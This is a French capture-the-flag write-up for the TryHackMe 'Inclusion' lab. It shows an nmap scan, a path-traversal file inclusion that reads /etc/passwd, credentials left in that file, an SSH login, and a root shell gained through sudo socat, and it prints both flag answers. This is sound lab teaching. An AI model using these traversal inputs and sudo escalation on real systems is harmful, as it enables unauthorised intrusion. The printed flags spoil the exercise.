


# Inclusion #
## Task 1 Deploy ##
```bash
im@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.92.193 inclusion.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A inclusion.thm 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-21 13:47 CEST
Nmap scan report for inclusion.thm (10.10.92.193)
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/21%OT=22%CT=1%CU=40178%PV=Y%DS=2%DC=T%G=Y%TM=60F8096
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   35.48 ms 10.9.0.1
2   35.72 ms inclusion.thm (10.10.92.193)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.15 seconds
```

En faisant un scan avec nmap on remarque 2 services disponibles :  
-SSH sur le port 22.  
-http sur le port 80.  


On voit sur le blog un article sur le LFI-attack, cliquons sur view details.  


On voit des examples de LFI.  
Le plus important c'est lien, grace à l'argument ?name= on il sera possible de passer une valeur pour atteindre un fichier. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://inclusion.thm/article?name=../../../../../../etc/passwd
<!DOCTYPE html>

<html>

    <body>

        

            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false


        

    </body>

</html>

tim@kali:~/Bureau/tryhackme/write-up$ 

```
On récupère les informations des utilisateurs dans /etc/passwd.   
On remarque en commentaire des identifiants :   
-falconfeast  
-rootpassword  

## Task 2 Root It ##
**user flag**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh falconfeast@inclusion.thm
The authenticity of host 'inclusion.thm (10.10.92.193)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'inclusion.thm,10.10.92.193' (ECDSA) to the list of known hosts.
falconfeast@inclusion.thm's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul 21 17:42:12 IST 2021

  System load:  0.0               Processes:           85
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 64%               IP address for eth0: 10.10.92.193
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ cat user.txt 
60989655118397345799

```

La réponse est : 60989655118397345799  

**root flag**

```flag
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

On peut exécuter socat avec sudo sans mot de passe.  

```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cat /root/root.txt
42964104845495153909
```

Pour plus d'information avec les commandes sudo sur certains fichiers.  [gtfobins](https://gtfobins.github.io/)  

Avec socat on peut avoir un shell root.   
On récupère le flag.   

Réponse : 42964104845495153909  